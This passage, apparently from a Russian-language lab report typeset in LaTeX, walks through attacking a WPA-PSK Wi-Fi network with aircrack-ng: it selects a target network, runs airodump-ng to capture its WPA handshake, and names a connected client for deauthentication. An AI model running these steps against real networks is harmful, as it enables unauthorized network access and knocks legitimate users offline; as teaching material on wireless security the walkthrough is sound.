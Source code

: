 \documentclass[10pt,a4paper]{report}
\begin{document}
		Интересующая нас сеть:
		\begin{lstlisting}
 58:3F:54:B6:55:A0  -45       76        2    0   4  54e. WPA  TKIP   PSK  L90_5004   
		\end{lstlisting}
		Запустим сбор трафика для получения аутентификационных сообщений:
		\begin{lstlisting}
          ubuntu@ubuntu:~/aircrack-ng-1.2-beta3$ sudo airodump-ng mon0 --write airdump --bssid 58:3F:54:B6:55:A0  -c 4
		 CH  4 ][ Elapsed: 20 s ][ 2016-05-29 20:58 ][ WPA handshake: 58:3F:54:B6:55:A0                                         
                                                                                                                                 
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                                          
 58:3F:54:B6:55:A0  -26 100      231       46    0   4  54e. WPA  TKIP   PSK  L90_5004                                                                                                                                                                                            
 BSSID              STATION            PWR   Rate    Lost    Frames  Probe                                                                                                                                                                                                    
 58:3F:54:B6:55:A0  98:FE:94:89:AC:AC  -65    2e- 1e     0       27                                                                             
		\end{lstlisting}
		К сети подключен один клиент с MAC-адресом 98:FE:94:89:AC:AC, проведем его деаутентификацию.
\end{document}
